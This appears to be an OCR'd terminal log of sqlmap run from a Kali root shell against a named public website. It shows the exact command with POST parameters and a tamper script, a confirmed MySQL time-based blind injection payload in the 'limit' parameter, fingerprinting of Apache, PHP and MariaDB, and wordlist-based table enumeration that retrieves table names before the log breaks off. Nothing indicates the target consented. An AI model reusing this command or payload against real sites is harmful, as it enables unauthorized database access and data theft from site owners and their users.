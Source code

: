[16:30:25] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 16:30:25

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com --tables
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.2.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:30:54

[16:30:54] [INFO] loading tamper module 'between'
[16:30:54] [INFO] resuming back-end DBMS 'mysql' 
[16:30:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[16:30:55] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[16:30:55] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[16:30:55] [INFO] fetching tables for database: 'qaisare_com'
[16:30:55] [INFO] fetching number of tables for database 'qaisare_com'
[16:30:55] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[16:31:03] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[16:31:03] [WARNING] unable to retrieve the number of tables for database 'qaisare_com'
[16:31:03] [ERROR] unable to retrieve the table names for any database
do you want to use common table existence check? [y/N/q] y
[16:31:05] [WARNING] it's not recommended to use 'AND/OR time-based blind' and/or 'stacked queries' for common table existence check
are you sure you want to continue? [y/N] y
which common tables (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/txt/common-tables.txt' (press Enter)
[2] custom
> 1
[16:31:09] [INFO] checking table existence using items from '/usr/share/sqlmap/txt/common-tables.txt'
[16:31:09] [INFO] adding words used on web page to the check list
[16:31:39] [INFO] tried 117/3311 items (4%)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[16:31:48] [INFO] retrieved: EMPLOYEE                                                            
[16:34:36] [INFO] retrieved: aggtest                                                             
[16:34:51] [INFO] tried 826/3311 items (25%)

